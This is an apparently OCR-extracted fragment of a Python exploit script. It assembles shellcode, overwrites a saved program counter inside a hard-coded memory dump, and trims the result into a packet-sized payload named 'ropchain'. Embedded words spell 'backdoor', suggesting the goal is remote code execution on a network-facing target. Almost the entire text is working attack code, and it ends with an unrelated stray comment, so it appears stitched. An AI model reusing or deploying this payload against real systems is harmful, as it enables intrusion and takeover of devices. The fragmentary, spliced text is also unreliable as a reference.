 ```python
"""

shellcode = asm(shellcode)
pc = 0x60e429b0-4*3-0x30

memorydump = [
        0,
0x00000004, 0x10101010, 0x60e42954, 0x60e429bc,
0x60e3a968, 0x60e42984, 0x60e42984, 0x60e4ac08,
0xffffffff, 0x60e429bc, 0x60e3a968, 0x61de24d0,
0x00000000, 0x000033bc, 0x00000001, 0x60e3a968,
0x6b636162, 0x726f6f64, 0x60e4297c, 0x00000202,
0x02020000, 0x609a4208, 0x61cd28f0, 0xffffffff,
0x61cd26dc, 0x00000001, 0x04040404, 0x60e429d4,
0x6004cb30, 0x06060606, 0x00000000, 0x08080808,
0x609a4208, 0x00000000, 0x6000001f, 0x00000001,
0x2000001f, 0x11111111, 0x00000000, 0x00000000,
0x00000000, 0x00000000, 0x00000000, 0x00000000,
0x80000068, 0x60e42910, 0x00000000, 0x609a40e4,
0x609a40e4, 0x60e429f0, 0x609a40dc, 0x00000001,
0x60e3a994, 0x60e3a994, 0x60e429f0, 0x00000000,
0x00000006, 0x60e3a9e8, 0x00787265, 0x00000000,
0x00000000, 0x00000005, 0x00000000, 0x00000006,
0x00000000, 0x00000002, 0x00000000, 0x00000000,
0x00000000, 0x00000000, 0x80000080, 0x60e42aac,
0x60e42abc, 0x60e42acc, 0x60e42ab8, 0x00000000,
0x60e42a70, 0xffffffff, 0x60e42a70, 0x60e42a70,
0x00000001, 0x60e42a84, 0xffffffff, 0x60e4aaf8,
0x60e4aaf8, 0x00000000, 0x00000008, 0x00000004,
0x0000ffff, 0x00000000, 0x00000000, 0x00000000,
0x60e52af4, 0x60e52af4, 0x60e52af4, 0x60e52af4,
0x60e52af4, 0x60e52af4, 0x60e52af4, 0x60e52af4,
0x00000000, 0x00000000, 0x80008008, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5, 0xa5a5a5a5,
]
memorydump = struct.pack("I"*len(memorydump), *memorydump)[tcp_header_len:]
memorydump = memorydump[:2] + shellcode + memorydump[2+len(shellcode):]
memorydump = memorydump[:2+0x38] + struct.pack("I", pc) + memorydump[2+0x38+4:]
memorydump = memorydump[:0x202 - tcp_header_len]

ropchain = memorydump

print(ropchain, hex(len(ropchain)))



# Many built-in settings can be controlled on the command-line and show up
```